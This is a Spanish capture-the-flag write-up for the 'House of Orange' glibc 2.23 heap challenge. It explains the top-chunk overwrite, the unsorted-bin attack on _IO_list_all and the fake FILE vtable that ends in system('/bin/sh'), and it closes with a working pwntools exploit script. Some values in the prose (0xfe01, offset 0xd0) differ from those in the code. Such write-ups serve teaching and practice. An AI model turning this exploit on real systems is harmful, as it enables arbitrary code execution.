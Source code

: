# House Of Orange
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```

Tal y como en `House of Force` hay un heap overflow que nos permite sobreescribir el top chunk. Esta vez las asignaciones con malloc no son de tamaño arbitrario. La version de glibc es 2.23 asi que podemos implementar la tecnica clasica que da nombre al reto.

Pasos:
1. Hacemos un "alloc (small)" y sobreescribimos con el overflow en este chunk en campo size del top chunk para que contenga un valor menor al espacio solicitado en un "alloc (large)". El nuevo tamaño que usamos, `0xfe01`, cumple ciertas condiciones necesarias:
  + ((unsigned long) (old_size) >= MINSIZE &&                    (Debe ser al menos 0x20 bytes)
  +  prev_inuse (old_top) &&                                      (Debe tener el byte PREV_INUSE activo)
  + ((unsigned long) old_end & (pagesize - 1)) == 0)'            (La direccion de top_chunk + size debe estar alineado a la pagina, (top_chunkaddr + size) & 0xfff == 0
2. Hacemos un "alloc (large)". Esto provoca que el top chunk se libere y vaya a `unsortedbin`.
3. Sobreescribimos de nuevo el top chunk:
  + Cambiamos su campo size a 0x61.
  + Cambiamos su campo bk a `_IO_list_all` - 0x10.
  + Creamos una estructura _IO_FILE_plus falsa con algunos valores especificos:
      + top chunk                               # "/bin/sh\x00"
      + top chunk + 0x08                        # 0x61
      + top chunk + 0x18                        # _IO_list_all - 0x10
      + top chunk + 0x20                        # campo _IO_write_base = 2
      + top chunk + 0x28                        # campo _IO_write_ptr = 3
      + top chunk + 0x68, 0x70, 0x78, 0x80      # sobreescribir estos con falsas entradas de una vtable, en 0x80 colocamos la direccion de `system`
      + top chunk + 0xc0                        # campo _mode = 0
      + top chunk + 0xd0                        # campo vtable = top chunk + 0x68
4. Hacemos un "alloc (small)" que realiza varias cosas:
  + Dado que hay un chunk en `unsortedbin` y se reserva un chunk pequeño malloc intenta moverlo a una `smallbin`, especificamente a `smallbin[4]`, que contiene los chunks de tamaño 0x5a-0x62 bytes.
  + Al llamar a `unlink_chunk` en `unsortedbin`: `p->bk->fd = p->fd` o lo que es lo mismo `_IO_list_all - 0x10 + 0x10 = main_arena + 88`. 
  ```
  /* Cabe destacar que p->fd puede contener cualquier cosa porque cuando malloc intenta satisfacer una solicitud dividiendo
     este chunk libre el valor en chunk->bk->fd se sobrescribe con la dirección de la unsortedbin */

  /* Ahora el primer elemento de la lista de file streams es esa direccion de libc, necesitamos que su campo `_chain`, es decir,
 `main_arena + 88 + 0x68`, sea igual a la direccion de nuestro top chunk. */
 
  /* Al haber colocado el top chunk en `smallbin[4]` y ser el unico elemento entonces `smallbin[4]` (que es la misma direccion que `main_arena + 88 + 0x68`)
  contiene la direccion de nuestro chunk. Ya tenemos nuestra estructura en la cadena de file streams. */
 ```
  + Realiza verificaciones de sanidad sobre nuestro chunk, falla y llama a `abort()` que limpia todos buffers de los punteros FILE por medio de invocar a ` _IO_flush_all_lockp`, que al final llama a `_IO_OVERFLOW`.
 ```
  /* IO_OVERFLOW es el cuarto elemento de la vtable a la que apunta un file stream (lo reemplazamos por system en nuestra vtable falsa) y toma como argumento
  la direccion del file stream, de modo que IO_OVERFLOW(top_chunk_addr) acaba siendo system("/bin/sh\x00") */

  /* No obstante IO_OVERFLOW es llamado si se cumplen estas condiciones:
   * fp->_mode <= 0 && 
   * fp->_IO_write_ptr > fp->_IO_write_base
   Que ya satisficimos. */
 ```

## Exploit 

``` py
from pwn import *
r = process("./house_of_orange")
libc = ELF("./libc.so.6")


r.recvuntil(b"@ ")
libc.address = int(r.recv(14).strip().ljust(8,b"\x00"),16) - 0x675a0

r.recvuntil(b"@ ")
heap_base = int(r.recv(14).strip().ljust(8,b"\x00"),16)

# Phase 1: Put the top chunk in the unsorted bin
r.sendlineafter(b">",b"1")
r.sendlineafter(b">",b"3")
r.sendlineafter(b"data:",b"A" * 16 + p64(0) + p64(0x0fe1))
r.sendlineafter(b">",b"2")

# Phase 2: Modify the size of the top chunk to make it fit in smallbin[4]
#          Modify the top chunk bk pointer in unsorted bin to overwrite _IO_list_all with a main_arena relative address
#          Craft a fake FILE struct 

# 0x20: _IO_write_base = 2
# 0x28: _IO_write_ptr = 3
# 0x68: fake vtable
# 0xc0: _mode = 0
# 0xd8: vtable = top_chunk_address + 0x68

r.sendlineafter(b">",b"3")
payload = flat({
    0x0: [b"/bin/sh\x00", p64(0x61),
          p64(0), p64(libc.symbols['_IO_list_all'] - 0x10),
          p64(2), p64(3)],                                          
    0x68: [p64(0) * 3, p64(libc.symbols['system'])],      
    0xc0: [p64(0)],                             
    0xd8: [p64(heap_base + 0x20 + 0x68)],
    },filler="b\x00")
r.sendlineafter(b"data:", b"A" * 16 + payload)

# Phase 3: Trigger abort()
r.sendlineafter(b">",b"1")
r.interactive()
```




     
